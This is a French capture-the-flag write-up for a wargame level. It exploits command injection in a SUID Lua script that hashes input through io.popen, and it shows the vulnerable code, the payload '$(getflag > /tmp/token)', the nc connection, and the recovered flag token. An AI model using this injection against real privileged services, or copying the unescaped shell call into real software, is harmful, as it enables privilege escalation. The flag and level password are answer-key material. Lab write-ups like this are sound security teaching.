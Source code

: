# Rapport de Vulnérabilité : Injection de Commande dans un Script Lua SUID

## Description
Cette vulnérabilité exploite un script Lua (`level11.lua`) configuré avec le bit SUID appartenant à l'utilisateur flag11. Le script écoute en local sur le port 5151 et demande un mot de passe. En interne, il passe la saisie utilisateur à la commande `echo ... | sha1sum` via `io.popen()` pour comparer la valeur SHA-1. L'absence de filtrage de l'entrée permet d'injecter des commandes shell via la substitution de commande `$()`. Grâce au bit SUID, ces commandes s'exécutent avec les privilèges de flag11, permettant de récupérer le flag du niveau 11.

## Comment Exploiter la Faille

### Étape 1 : Connexion au service vulnérable
```bash
nc 127.0.0.1 5151
```
**Résultat :**
```
Password: 
```

Le script Lua attend une saisie utilisateur qui sera traitée par la fonction de hachage.

### Étape 2 : Analyse du script vulnérable

**Code complet du script `level11.lua` :**
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()
  data = string.sub(data, 1, 40)
  return data
end
while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

**Analyse de la vulnérabilité :**
- La fonction `hash(pass)` utilise : `io.popen("echo "..pass.." | sha1sum", "r")`
- Le paramètre `pass` est directement concaténé sans échappement
- Le hash attendu est `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`

**Tentative initiale de déchiffrement :**
Nous avons d'abord tenté de déchiffrer le hash SHA-1 `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0` sur des outils comme dcode.fr, mais la réponse obtenue (`nottoeasy`) ne semblait pas être la bonne piste. Nous avons donc orienté notre approche vers l'exploitation de l'injection de commande.

### Étape 3 : Injection de la commande malveillante

**Payload d'injection :**
```bash
$(getflag > /tmp/token)
```

**Mécanisme d'exploitation :**
- Le script exécute : `echo $(getflag > /tmp/token) | sha1sum`
- La substitution `$()` s'exécute en premier avec les privilèges de flag11
- `getflag` récupère le flag et le sauvegarde dans `/tmp/token`
- Le résultat SHA-1 ne correspond pas au mot de passe attendu

**Résultat affiché :**
```
Erf nope..
```

Bien que l'authentification échoue, la commande injectée a été exécutée avec succès.

### Étape 4 : Récupération du flag

```bash
cat /tmp/token
```
**Résultat :**
```
Check flag. Here is your token : fa6v5ateaw21peobuub8ipe6s
```

**Flag obtenu :**
```
fa6v5ateaw21peobuub8ipe6s
```

### Étape 5 : Passage au niveau suivant

```bash
su level12
```
**Mot de passe :**
```
fa6v5ateaw21peobuub8ipe6s
```

---

## Mécanisme détaillé de l'exploitation

### Séquence d'exécution :
1. **Connexion** : `nc 127.0.0.1 5151`
2. **Saisie** : `$(getflag > /tmp/token)`
3. **Exécution Lua** : `io.popen("echo $(getflag > /tmp/token) | sha1sum", "r")`
4. **Substitution shell** : Le shell exécute d'abord `getflag > /tmp/token`
5. **Privilèges** : L'exécution se fait avec les droits de flag11 (SUID)
6. **Résultat** : Le flag est sauvegardé dans `/tmp/token`

### Pourquoi l'exploitation fonctionne :
- **SUID** : Le script s'exécute avec les privilèges de flag11
- **Pas de filtrage** : L'entrée utilisateur est directement passée au shell
- **Substitution de commande** : `$()` permet l'exécution de commandes arbitraires
- **Redirection** : `> /tmp/token` sauvegarde le résultat dans un fichier accessible

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Éliminer l'exécution de commandes shell sur les entrées utilisateur :**
  - Remplacer `io.popen("echo "..pass.." | sha1sum", "r")` par une fonction de hachage native Lua
  - Utiliser une bibliothèque cryptographique dédiée (ex: `luacrypto`)

* **Échappement sécurisé si l'appel shell est nécessaire :**
  - Filtrer rigoureusement les caractères spéciaux : `$`, `` ` ``, `|`, `;`, `&`
  - Utiliser des fonctions d'échappement appropriées

* **Suppression du bit SUID :**
  - Si les privilèges élevés ne sont pas nécessaires, retirer le bit SUID
  - Principe de moindre privilège : n'accorder que les permissions strictement nécessaires

* **Validation stricte des entrées :**
  - Implémenter une liste blanche de caractères autorisés
  - Limiter la longueur des saisies utilisateur

**Code sécurisé suggéré :**
```lua
-- Utilisation d'une bibliothèque de hachage native
local crypto = require("crypto")
local hash = crypto.digest("sha1", pass)

-- Ou échappement sécurisé
local escaped_pass = pass:gsub("[%$%`%|%;%&%(%)%[%]%{%}]", "\\%1")
```

## Conclusion

Cette vulnérabilité démontre les risques critiques liés à l'utilisation de `io.popen()` avec des entrées utilisateur non filtrées dans un contexte SUID. La combinaison de l'injection de commande et des privilèges élevés permet une escalation immédiate des privilèges. L'utilisation de fonctions de hachage natives et la suppression du bit SUID sont essentielles pour sécuriser ce type d'application.

---